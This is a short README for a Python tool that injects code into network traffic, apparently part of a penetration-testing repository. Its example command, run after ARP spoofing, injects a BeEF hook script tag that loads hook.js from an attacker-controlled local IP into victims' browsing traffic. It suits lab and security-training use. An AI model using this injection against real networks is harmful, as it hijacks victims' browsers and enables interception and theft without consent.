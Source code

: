# Code injector

## Usage

```shell
usage: code_injector.py [-h] [-d DESTINATION] [-c CODE]

optional arguments:
  -h, --help            show this help message and exit
  -d DESTINATION, --destination DESTINATION
                        Destination (sslstrip, forward, local)
  -c CODE, --code CODE  Code to inject
```

### Example

Using BeEF (start [ARPSpoofer](../arp_spoofer/arp_spoofer.py) first):
```shell
kali:~$ sudo python3 code_injector.py -d forward -c '<script src="http://192.168.122.108:3000/hook.js"></script>'
```

## Troubleshooting

* [BeEF unable to load extensions](https://github.com/tymyrddin/ymrir/wiki/beef.md)
